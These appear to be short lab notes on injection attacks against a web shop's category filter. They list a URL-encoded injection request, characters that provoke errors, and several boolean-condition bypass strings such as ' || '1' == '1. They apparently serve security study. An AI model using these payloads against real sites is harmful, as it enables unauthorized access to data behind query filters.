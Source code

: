 
![[Pasted image 20250214220005.png]]
```code
/filter?category=Accessories%27%7c%7c%271%27%3d%3d%271
```

Character to generate an error
'
"
´
{
[
$
;

Bypassing using boolean conditions

' && 1 == 1
' && '1' == '1
' || 1 == 1
' || '1' == '1
' || 1 ||
' || 1 || '
' || '1' == '1